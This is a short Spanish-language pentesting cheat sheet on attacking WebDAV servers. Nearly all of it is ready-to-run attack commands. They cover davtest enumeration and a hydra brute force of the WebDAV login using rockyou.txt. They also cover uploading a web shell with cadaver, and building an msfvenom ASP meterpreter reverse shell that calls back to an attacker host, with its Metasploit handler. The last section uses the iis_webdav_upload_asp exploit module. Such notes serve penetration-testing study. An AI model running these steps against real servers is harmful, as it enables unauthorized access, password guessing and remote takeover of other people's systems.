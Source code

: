```yaml
---
title: "Webdav"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/webdav"
date: "2025-09-30"
---
```


rcWebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP (Hypertext Transfer Protocol) que permite a los usuarios gestionar y editar archivos almacenados en servidores remotos. WebDAV fue diseñado para facilitar la colaboración entre usuarios en la creación y edición de contenidos en la web, permitiendo operaciones como la carga y descarga de archivos, la gestión de directorios, y la edición directa de archivos en un servidor.

### Enumeracion webDAV
```bash
# Si se necesita proveer contraseña se mete el argumento -auth
davtest -url <URL/webdav> -auth user:pass
```
### Fuerza bruta contra webdav login panel
```bash
hydra -L usuarios.txt -P rockyou.txt <IP> http-get /webdav/
```

### Web-shell con cadaver
```bash
cadaver <URL/webdav>
put /usr/share/webshells/asp
# con la enumeracion de cadaver se ve el tipo de ficheros que se pueden subir y cuales se pueden ejecutar
```

### Reverse shell en asp con Metasploit
#### Opcion 1
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip_atacante> LPORT=<puerto_atacante> -f asp > shell.asp
cadaver <URL/webdav>
put ./shell.asp


use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST y set LPORT

Visitar el shell.asp desde la web
```

#### Opcion 2
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set payload windows/meterpreter/reverse_tcp
exploit (en lugar de run)
```


